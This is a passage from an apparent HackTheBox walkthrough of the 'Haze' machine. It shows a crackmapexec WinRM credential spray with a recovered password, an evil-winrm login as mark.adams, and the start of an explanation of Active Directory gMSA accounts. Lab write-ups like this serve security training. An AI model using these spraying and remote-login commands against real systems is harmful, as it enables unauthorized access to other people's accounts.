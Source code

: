 ```bash
crackmapexec winrm 10.10.11.61 -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb
```

![Screenshot 2025-03-31 at 8.28.00 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.28.00_PM.png)

We got a user mark.adams

Login using evil-winrm

```bash
evil-winrm -i haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'
```

![Screenshot 2025-03-31 at 8.31.41 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.31.41_PM.png)

---

## GSMA_MANAGER

**`Group Managed Service Accounts (gMSA)`** in Active Directory are special service accounts designed to provide **automatic password management, simplified service principal name (SPN) management, and enhanced security** for applications and services running across multiple servers.
